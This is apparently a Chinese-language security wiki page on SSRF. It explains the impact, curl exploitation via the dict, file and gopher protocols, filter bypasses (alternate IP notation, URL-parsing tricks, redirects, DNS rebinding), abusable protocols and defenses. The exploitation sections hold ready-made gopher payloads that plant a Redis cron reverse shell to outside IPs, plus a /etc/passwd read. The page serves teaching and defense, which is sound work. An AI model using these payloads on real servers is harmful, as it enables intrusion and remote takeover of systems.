 SSRF
================================

漏洞危害
--------------------------------
- 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
- 攻击运行在内网或本地的应用程序（比如溢出）;
- 对内网Web应用进行指纹识别，通过访问默认文件实现;
- 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）;
- 利用File协议读取本地文件。


利用方式
--------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例

::

    # dict protocol (操作Redis) 

    curl -vvv 'dict://127.0.0.1:6379/info' # file protocol (任意文件读取) 

    curl -vvv 'file:///etc/passwd' # gopher protocol (一键反弹Bash) 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 


过滤绕过
--------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：
::

    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：

::

    8进制格式：0300.0250.0.1

    16进制格式：0xC0.0xA8.0.1

    10进制整数格式：3232235521

    16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1


利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

http://www.baidu.com@192.168.0.1/

当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。


利用302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。

(1) 在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。

(2) 由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，不过tinyurl.com所提供的短地址服务支持IP方式。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

(1) GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

(2) File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容


DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。


可能利用的协议
--------------------------------
- ftp、ftps （FTP爆破） 
- tftp（UDP协议扩展） 
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs （连接SMB） 
- telnet 
- 连接SSH/Telnet 
- http、https - 内网服务探测 
- 网络服务探测 
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2一堆命令执行 
- counchdb WEB API远程命令执行 
- mongodb SSRF 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行

防御方式
--------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

参考链接
--------------------------------
- `SSRF漏洞分析与利用 <http://www.91ri.org/17111.html>`_
- `A New Era Of SSRF <https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf>`_
- `php ssrf technique <https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51>`_
- `谈一谈如何在Python开发中拒绝SSRF漏洞 <https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html>`_
